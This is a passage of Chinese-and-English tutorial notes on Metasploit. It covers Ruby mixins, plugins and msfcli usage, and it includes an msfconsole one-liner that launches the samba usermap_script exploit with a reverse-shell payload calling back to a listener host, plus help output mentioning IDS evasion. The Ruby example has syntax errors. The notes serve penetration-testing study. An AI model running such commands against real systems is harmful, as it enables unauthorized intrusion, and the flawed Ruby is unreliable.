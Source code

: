 class MyClass > MyParent
end

object = MyClass.new
object.woof() => “woof!”

================================================================

module MyMixin
     def woof
          puts “hijacked the woof method!”
     end
end

class MyBetterClass > MyClass
     include MyMixin
end
```

##### Metasploit Plugins

插件类似API一样在工作。

- They manipulate the framework as a whole
- Plugins hook into the event subsystem
- They automate specific tasks that would be tedious to do manually

Plugins only work in the msfconsole.
- Plugins can add new console commands
- They extend the overall Framework functionality

## MSF 基础

### MSFcli

msfcli 为MSF提供了一个强力的命令行接口，它允许简单的加入metasploit 渗透模块到任何你生成的脚本中。

现在使用它的方法是```-x```选项，例如：

```
root@kali:~# msfconsole -x "use exploit/multi/samba/usermap_script;\
set RHOST 172.16.194.172;\
set PAYLOAD cmd/unix/reverse;\
set LHOST 172.16.194.163;\
run"
```

可以使用下列方法获得帮助：
```
root@kali:~# msfcli -h
Usage: /usr/bin/msfcli<option=value> [mode]
===========================================================

    Mode           Description
    ----           -----------
    (A)dvanced     Show available advanced options for this module
    (AC)tions      Show available actions for this auxiliary module
    (C)heck        Run the check routine of the selected module
    (E)xecute      Execute the selected module
    (H)elp         You're looking at it baby!
    (I)DS Evasion  Show available ids evasion options for this module
    (O)ptions      Show available options for this module
    (P)ayloads     Show available payloads for this module
    (S)ummary      Show information about this module
    (T)argets      Show available targets for this exploit module
